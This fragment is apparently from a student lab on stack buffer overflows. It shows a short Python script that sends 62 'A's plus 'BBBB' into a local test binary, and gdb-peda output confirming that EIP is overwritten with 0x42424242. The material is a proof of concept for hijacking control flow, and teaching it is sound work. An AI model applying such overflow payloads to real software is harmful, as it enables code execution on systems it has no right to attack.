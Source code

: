 ```

buffer = "A" * 62

eip = "BBBB"

print(buffer + eip)

```


run <<< $(python test.py)

```
gdb-peda$ run <<< $(python test.py)
Starting program: /home/student/Downloads/func <<< $(python test.py)
Enter a string: 

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd42e ('A' <repeats 62 times>, "BBBB")
EBX: 0x41414141 ('AAAA')
ECX: 0xf7fb65c0 --> 0xfbad2088 
EDX: 0xf7fb789c --> 0x0 
ESI: 0xf7fb6000 --> 0x1d4d8c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd470 --> 0xf7fe5900 (add    BYTE PTR [eax],al)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd470 --> 0xf7fe5900 (add    BYTE PTR [eax],al)
0004| 0xffffd474 --> 0xffffd490 --> 0x1 
0008| 0xffffd478 --> 0x0 
0012| 0xffffd47c --> 0xf7df9fa1 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd480 --> 0xf7fb6000 --> 0x1d4d8c 
0020| 0xffffd484 --> 0xf7fb6000 --> 0x1d4d8c 
0024| 0xffffd488 --> 0x0 
0028| 0xffffd48c --> 0xf7df9fa1 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()

```
# Set environmental variables 

	env - gdb func
